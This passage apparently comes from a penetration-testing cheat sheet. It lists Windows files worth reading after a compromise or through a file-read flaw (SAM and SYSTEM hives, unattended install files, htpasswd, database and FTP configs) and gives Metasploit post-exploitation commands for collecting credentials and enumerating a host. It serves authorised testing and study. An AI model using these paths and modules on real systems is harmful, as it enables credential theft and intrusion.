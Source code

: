 ```cmd
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Program Files\MySQL\my.cnf
C:\Program Files\MySQL\my.ini
C:\Program Files\MySQL\MySQL Server 5.0\my.cnf
C:\Program Files\MySQL\MySQL Server 5.0\my.ini
C:\Program Files\MySQL\MySQL Server 5.1\my.cnf
C:\Program Files\MySQL\MySQL Server 5.1\my.ini
C:\Program Files\MySQL\MySQL Server 5.5\my.cnf
C:\Program Files\MySQL\MySQL Server 5.5\my.ini
C:\Program Files\MySQL\MySQL Server 5.6\my.cnf
C:\Program Files\MySQL\MySQL Server 5.6\my.ini
C:\Program Files\MySQL\MySQL Server 5.7\my.cnf
C:\Program Files\MySQL\MySQL Server 5.7\my.ini
C:\Program Files\php\php.ini
C:\Users\Administrator\NTUser.dat
C:\Windows\debug\NetSetup.LOG
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\php.ini
C:\Windows\repair\SAM
C:\Windows\repair\system
C:\Windows\System32\config\AppEvent.evt
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\RegBack\system
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SecEvent.evt
C:\Windows\System32\config\SysEvent.evt
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\drivers\etc\hosts
C:\Windows\System32\winevt\Logs\Application.evtx
C:\Windows\System32\winevt\Logs\Security.evtx
C:\Windows\System32\winevt\Logs\System.evtx
C:\Windows\win.ini 
C:\xampp\apache\conf\extra\httpd-xampp.conf
C:\xampp\apache\conf\httpd.conf
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
C:\xampp\FileZillaFTP\FileZilla Server.xml
C:\xampp\MercuryMail\MERCURY.INI
C:\xampp\mysql\bin\my.ini
C:\xampp\php\php.ini
C:\xampp\security\webdav.htpasswd
C:\xampp\sendmail\sendmail.ini
C:\xampp\tomcat\conf\server.xml
```

### Metasploit Post Modules

Some useful post-modules to run against msf sessions and do some of this stuff automatically...
```bash
use exploit/windows/local/service_permissions
post/windows/gather/credentials/gpp
run post/windows/gather/credential_collector 
run post/multi/recon/local_exploit_suggester
run post/windows/gather/enum_shares
run post/windows/gather/enum_snmp
run post/windows/gather/enum_applications
run post/windows/gather/enum_logged_on_users
run post/windows/gather/checkvm
```
